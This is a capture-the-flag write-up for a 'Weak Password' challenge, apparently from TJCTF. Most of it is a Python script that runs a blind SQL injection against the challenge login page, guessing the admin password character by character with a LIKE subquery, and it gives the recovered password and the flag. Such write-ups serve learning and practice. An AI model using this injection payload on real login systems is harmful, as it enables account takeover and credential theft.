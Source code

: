 # Weak Password

We can use the SQL LIKE clause to bruteforce the password one character at a time.

```python
import requests

url = 'https://weak_password.tjctf.org/login'
alphabet = 'abcdefghijklmnopqrstuvwxyz'

print('Bruteforcing password: ', end='', flush=True)
for i in range(100):
    for char in alphabet:
        r = requests.post(url, data = {'username': 'test', 'password': f"a' OR EXISTS(SELECT * FROM `userandpassword` WHERE username='admin' AND password LIKE '{'_'*i}{char}%') AND ''='"})
        if 'Wrong' not in r.text:
            print(char, end='', flush=True)
            break
    else:
        print('\nPassword found')
```

The password is 'blinded', the flag is:
#### tjctf{blinded}
